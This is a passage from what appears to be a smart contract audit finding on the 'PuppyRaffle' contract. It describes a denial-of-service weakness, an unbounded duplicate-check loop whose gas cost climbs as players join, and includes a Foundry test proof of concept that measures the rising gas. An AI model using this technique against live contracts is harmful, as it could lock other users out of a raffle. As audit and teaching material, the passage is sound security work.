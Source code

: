```javascript
@>  for (uint256 i = 0; i < players.length - 1; i++) {
                for (uint256 j = i + 1; j < players.length; j++) {
                    require(players[i] != players[j], "PuppyRaffle: Duplicate player");
                }
            }
```

### Impact: 
> The `gas cost` to enter raffle will dramatically increase as more players enter the raffle. This will discourage more players from entering the raffle.<br>
> An Attacker may make `PuppyRaffle::players` array so big that no one else can enter the raffle, guranteeing themselves the win.

### Proof of Concept:

If we have 2 batch of players, 100 in each batch;<br>
- 1st 100 ~ 6252039 gas<br>
- 2nd 100 ~ 18067744 gas<br>

From aboce data it is evident that gas cost becomes 3x for the 2nd batch of players. This will become even worse if more players start to join.

<details>
<summary>PoC</summary>

```java
function testDOSAttackEnterRaffle() public {
      vm.txGasPrice(1);
      // Gas cost #1
      // making 100 players
      uint256 n = 100;
      address[] memory players = new address[](n);
      for (uint256 i = 0; i < n; i++) {
          players[i] = address(i);
      }
      uint256 gasStart = gasleft();
      puppyRaffle.enterRaffle{value: entranceFee*100}(players);
      // Gas cost #2
      uint256 gasEnd = gasleft();
      uint256 gasUsedFirst = (gasStart-gasEnd)*tx.gasprice;
      console.log("1st 100 players: ",gasUsedFirst);

      for (uint256 i = 0; i < n; i++) {
          players[i] = address(i + n);
      }
      uint256 gasStart1 = gasleft();
      puppyRaffle.enterRaffle{value: entranceFee*100}(players);
      // Gas cost #2
      uint256 gasEnd1 = gasleft();
      uint256 gasUsedFirst1 = (gasStart1-gasEnd1)*tx.gasprice;
      console.log("2nd 100 players: ",gasUsedFirst1);
      assert(gasUsedFirst1>gasUsedFirst);
  }
```
